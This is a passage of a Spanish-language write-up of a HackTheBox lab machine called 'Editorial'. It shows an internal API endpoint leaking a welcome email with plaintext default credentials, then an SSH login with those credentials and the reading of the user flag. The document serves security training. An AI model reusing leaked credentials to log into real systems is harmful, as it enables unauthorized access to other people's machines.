 En el endpoint para ver el mensaje por defecto enviado a nuevos autores, encontramos esto:

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Esta credencial funciona por SSH, y en el escritorio de este usuario encontraremos la primera flag.

```bash
❯ ssh dev@editorial.htb
dev@editorial.htbs password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Oct 15 09:18:23 PM UTC 2024

  System load:           0.69
  Usage of /:            60.6% of 6.35GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             225
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:feb0:70e2


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts.
Check your Internet connection or proxy settings


Last login: Tue Oct 15 20:42:47 2024 from 10.10.14.37
dev@editorial:~$ ls -la
total 36
drwxr-x--- 4 dev  dev  4096 Oct 15 20:56 .
drwxr-xr-x 4 root root 4096 Jun  5 14:36 ..
drwxrwxr-x 3 dev  dev  4096 Jun  5 14:36 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4096 Jun  5 14:36 .cache
-rw------- 1 dev  dev    20 Oct 15 20:56 .lesshst
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 Oct 15 20:23 user.txt
dev@editorial:~$ cat user.txt
fe787fffc6643d09303421dd3b******
```
